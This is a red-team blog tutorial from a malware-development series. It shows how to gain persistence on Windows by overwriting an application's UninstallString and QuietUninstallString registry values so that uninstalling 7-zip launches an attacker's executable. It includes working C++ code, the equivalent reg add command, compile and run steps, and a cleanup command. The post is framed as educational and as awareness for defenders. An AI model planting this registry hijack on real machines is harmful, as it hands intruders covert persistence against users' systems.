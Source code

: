 ```yaml
---
title:  "Malware development: persistence - part 13. Hijacking uninstall logic for application. Simple C++ example."
date:   2022-10-04 03:00:00 +0300
header:
  teaser: "/assets/images/73/2022-10-04_21-03_1.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/73/2022-10-04_21-03_1.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via hijacking uninstall file for target application.     

### uninstallation process

When you install a program on a Windows system, they usually point to their own uninstallers. They are in the registry keys:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<application name>`    

and  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<application name>`     

So what is the trick? There is no problem with replacing them with commands that can run any other program. When a user executes the uninstaller, the command of the attacker's choosing is executed. Again, the good news is that privileges are required to modify these items, as they reside under the `HKLM` key.     

### practical example

Let's look at a practical example. Firstly, let's choose a target application. I chose `7-zip x64`:    

![pers](/assets/images/73/2022-10-04_20-13_1.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15_1.png){:class="img-responsive"}    

Then, check registry key values, for correctness:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](/assets/images/73/2022-10-04_20-08.png){:class="img-responsive"}    

Also, I prepared my evil application. It's as usually `meow-meow` "malware" :)    

![pers](/assets/images/73/2022-10-04_20-10.png){:class="img-responsive"}    

Then, I create a program, which do my logic for persistence (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, we are just update target key values in registry.    

### demo

Let's go to see everything in action. Compile malware and persistence script:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/73/2022-10-04_20-09.png){:class="img-responsive"}    

And run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```

![pers](/assets/images/73/2022-10-04_20-59.png){:class="img-responsive"}    

Finally, after reboot my system, tried to uninstall `7-zip`:    

![pers](/assets/images/73/2022-10-04_20-13_1.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_21-01.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_21-03.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/73/2022-10-04_21-05.png){:class="img-responsive"}    

as you can see the parent process is `SystemSettings.exe` - is what you see whenever you open your Windows settings. In our case, it is `add/remove programs`. Perfect! =^..^=    

There are the little caveat. When I try to update key with path `Z:\2022-10-04-malware-pers-13\hack.exe` I get an error like this:    

![pers](/assets/images/73/2022-10-05_17-37.png){:class="img-responsive"}    

Maybe you can use only paths inside the disk `C:\`.    

After end of the experiments, clean up:    

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "C:\Program Files\7-zip\Uninstall.exe" /f
```

![pers](/assets/images/73/2022-10-05_17-50.png){:class="img-responsive"}    

### conclusion

Of course, maybe this trick is not so cool for persistence, since it requires the permissions and participation of the victim's user. But why not?    

There is one more trick with using installing and removing programs for persistence, I will write about it in one of the future posts. I'm still in the process of investigating this possibility for the red team.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
